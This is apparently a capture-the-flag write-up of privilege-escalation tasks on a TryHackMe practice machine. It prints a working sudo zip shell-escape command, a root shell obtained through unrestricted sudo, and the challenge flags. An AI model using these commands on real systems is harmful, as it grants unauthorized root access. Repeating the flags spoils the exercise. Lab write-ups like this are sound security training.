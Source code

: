 User wileec can sudo! What can he sudo?

`(jsmith) NOPASSWD: /usr/bin/zip`

## Task 8 Privesc #2

Using the sudo-trick, we’re now mr or mrs Smith (and admit, who does not want to be a Mr. or Mrs. Smith once in their life?), as an extra reward, there is flag 2 here.

```
$ TF=$(mktemp -u)
$ sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 32%)
$ sudo rm $TF
rm: missing operand
Try 'rm --help' for more information.
$ SHELL=/bin/bash script -q /dev/null
jsmith@Securus:/home/wileec$ cd ~
jsmith@Securus:~$ ls -la
total 24
drwxrwx--- 2 jsmith jsmith 4096 Apr 25  2020 .
drwxr-xr-x 4 root   root   4096 Apr 26  2020 ..
-rw-r--r-- 1 jsmith jsmith  220 Nov  5  2016 .bash_logout
-rw-r--r-- 1 jsmith jsmith 3515 Nov  5  2016 .bashrc
-rw-r--r-- 1 jsmith jsmith   33 Apr 25  2020 flag2.txt
-rw-r--r-- 1 jsmith jsmith  675 Nov  5  2016 .profile
jsmith@Securus:~$ cat flag2.txt
THM{Welcome_Home_Wile_E_Coyote!}
```

Flag 2

`THM{Welcome_Home_Wile_E_Coyote!}`

## Task 9 Root

As jsmith, we again check for sudo rights (this btw, should be your first action on any box when gaining access to a account)

There are several ways to exploit this rights. Go for it!

What sudo rights does jsmith have?

```
jsmith@Securus:~$ sudo -l
Matching Defaults entries for jsmith on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jsmith may run the following commands on Securus:
    (ALL : ALL) NOPASSWD: ALL
jsmith@Securus:~$ sudo -s
root@Securus:/home/jsmith# cd ~
root@Securus:~# ls -la
total 28
drwx------  4 root root 4096 Apr 26  2020 .
drwxr-xr-x 22 root root 4096 Apr 17  2020 ..
lrwxrwxrwx  1 root root    9 Apr 22  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   43 Apr 25  2020 flag3.txt
drwx------  2 root root 4096 Apr 23  2020 .gnupg
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
drwx------  2 root root 4096 Apr 17  2020 .ssh
root@Securus:~# cat flag3.txt
THM{Great_work!_You_pwned_Erit_Securus_1!}
```
